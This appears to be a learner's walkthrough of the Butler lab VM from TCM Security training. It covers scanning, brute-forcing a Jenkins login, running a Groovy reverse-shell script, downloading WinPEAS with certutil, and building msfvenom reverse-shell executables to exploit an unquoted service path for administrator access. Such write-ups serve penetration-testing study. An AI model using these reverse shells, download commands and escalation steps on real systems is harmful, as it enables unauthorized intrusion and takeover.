






# Box4 - Butler VM Penetration Testing Walkthrough Training (TCM Sec)

1. Network Scanning
2. Scan network to get target's IP Address\
\
Scanning target's open ports\
\
Result:
- 135(msrpc) -> Microsoft Windows RPC
- 139(netbios-ssn) -> Microsoft Windows netbios-ssn
- 445(microsoft-ds)
- 5040(unknown)
- 7680(pando-pub)
- 8080(http) -> Hetty 9.4.41.v20210516
- 4966<4-9>(msrpc) -> Microsoft Windows RPC

Information acquired:
- Open SMB port (139/445),
- HTTP port (8080),
- Running Microsoft Windows with hidden version (445)

Unusual port:
- Port [7680](https://www.speedguide.net/port.php?port=7680#:~:text=%20%20%20%20Port%20%28s%29%20%20,Public%20Distribution%2C%20registe%20...%20%20%20IANA%20)(pando-pub) -> Seems to be "Pando Media Public Distribution, registered 2008-02-27"
- When stumbling upon an unusual port, try to `netcat` or `telnet` to that port or try open directly in browser.

2. Checking the website on port 8080\
\
Turns out to be a login page.\
Try to look for vulnerabilities based on the http version (Jetty 9.4.41.v20210516)
- [Snyk](https://security.snyk.io/package/maven/org.eclipse.jetty:jetty-server/9.4.41.v20210516) -> Information Exposure leads to cookies exfiltration and policy based on cookies bypass. Denial of Service
- [Invalid URI parsing](https://github.com/eclipse/jetty.project/security/advisories/GHSA-cj7v-27pg-wf7q)

3. Trying Directory Busting to the website using ffuf
\
A lot of directories but everything are forbidden status.\
_Self note: Then I think no need to directory bust a login website?_

4. From video walkthrough in TCM Security, directly look for exploit vulnerabilities for Jenkins. I thought Jenkins is a custom name of the website and doesn't really matter, that's why I only look for vulnerabilities of the service version (Jetty). List of Jenkins vulnerabilities:
- [Several reported vulnerabilities based on versions](https://github.com/gquere/pwn_jenkins)
- [Jenkins RCE Vuln](https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html)
- Searchsploit Result\
\
Note: However, we still don't know the version used on the website!

5. Let's just try bruteforcing the login page with burpsuite.
- When running `Intruder` in Burp Suite. Several things to look for: change in **status** and **length**
- When length is 318 (the most recurring length):

- When length is 314 (appears one time):

- When length is 408 (appear several time with one digit difference):

- After length 314, the rest have length of 400 above:


6. Attempt to login with jenkins:jenkins

- Navigate through all the pages to see possible places to run scripts

Found a place that accepts Groovy scripts to be executed on the server.
- Search for groovy script for [reverse shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) (Actually, we can use any other methods too such as metasploit etc.)
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Change the host to the attacker or wherever you want to run the netcat
- Open a listener on the port written on the script, which is 8044 (it can be changed to whatever you want)\
_Self note: If I want to use metasploit for this, can I just run any tools inside metasploit to attack the target?_

7. Running the groovy script\

- We are able to get in as butler. _Are we going to run PEAS to escalate our privilege to admin here?_

- Check the system information and maybe can search for vulnerability based on the OS version. _But we will use `winpeas` for this._


8. Getting `WinPEAS` for privilege escalation
- [WinPEAS Github Repo](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- Download and move it to the folder that will be hosted for file sharing

- Run python server to host the folder
```
python3 -m http.server 80
```
- In the reverse shell, look for a place where the user "butler" have the permission to read/write

- Maybe also do look around the available folders especially recently changed.

- There's a grape folder inside .groovy. _Is it related to the grape invoke that is seen in one of the exploit write up previously?_

- Get the winpeas to butler user
```
certutil.exe -urlcache -f http://<attacker machine ip address>/winpeas.exe winpeas.exe
```


9. Running winpeas.exe
\
What to look for:
- Red colored texts (however not all red colored texts will be useful to us)
- System informations -> to hijack a system that we may get the admin privilege. See a service that the current user is able to modify but is run through higher privilege account.

- Possible **Unquoted Service Paths** vulnerability where it is caused by the service path `C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe` is not enclosed with a quote `' '` and contains blank space ` `. Here the service will add an `.exe` before every blank space available (eg. C:\Program.exe, C:\Program Files.exe, etc.)
- The idea here is to upload a malicious file into one of the path and let the service automatically run it, thinking it is legit. As long as the current user "butler" has the permission to write.

10. Generate malicious file containing reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.152.128 LPORT=7777 -f exe > Wise.exe 
```
Or run it with metasploit:
```
msfvenom -p windows/x64/meterpreter/shell_reverse_tcp LHOST=192.168.152.128 LPORT=7777 -f exe > Wise.exe 

```

- Host the folder again to share

11. Get the malicious file to the victim machine
- Move to the folder where we want to put the malicious file

- Get the malicious file\


12. Running the malicious file not as the current user but as the administrator. As stated in the WinPEAS, the BootTime.exe is run automatically through the admin privilege
- If we just run the `Wise.exe` file manually, it will run as the current user instead of admin
- STOP the service that is running with the path that we target, which is the WiseBootAssistant (see WinPeas result again)
```
sc stop <service name>
```

- Check the status of the service
```
sc query <service name>
```

- NOW, run the service that we just stop. Because it will run the Wise.exe instead because of the **unquoted path and blank space**.
```
sc start <service name>
```

- Now we have the access to the machine with higher privilege!

_Learning point: There is still a lot of things I don't know about._
